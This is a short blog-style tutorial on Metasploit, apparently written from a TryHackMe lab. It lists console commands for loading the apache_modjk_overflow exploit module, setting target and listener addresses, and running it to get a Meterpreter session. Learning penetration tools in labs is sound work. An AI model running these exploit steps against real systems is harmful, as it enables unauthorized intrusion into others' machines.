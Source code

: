```yaml
---
title:  "Metasploit"
date:   2022-12-13
excerpt: ""
categories: informationsecurity
tags: 
- metasploit
- red team
toc: true
toc_label: "My Table of Contents"
toc_icon: "cog"
classes: wide
---
```

## What is Metasploit/Meterpreter?

Metasploit is a powerful penetration testing tool for gaining initial access to systems, performing post-exploitation, and pivoting to other applications and systems. Metasploit is free, open-source software owned by the US-based cybersecurity firm Rapid7.[^1]

Meterpreter is an advanced payload that provides interactive access to a compromised system. Meterpreter supports running commands on a remote target, including uploading/downloading files and pivoting.

## Use Metasploit

```bash
# start console
msfconsole
    
# search for a model
search apache

# Load a module with the ‘use’ command
use exploit/windows/http/apache_modjk_overflow

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(exploit/windows/http/apache_modjk_overflow) > info        

# View the available options to set
msf6 exploit(exploit/windows/http/apache_modjk_overflow) > show options

# Set the target host and logging
set rhost 10.10.10.20
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Usefull Commands

```bash
# Inside a module
## check if target is vulnerable
check rhost=10.10.228.247 HttpClientTimeout=20

## show sessions
session

# Inside a session
## session to background
background
```

## References

[^1]: [tryhackme: Advent of Cyber Day 9]([https://tryhackme.com/room/cyberthreatintel](https://tryhackme.com/room/adventofcyber4))
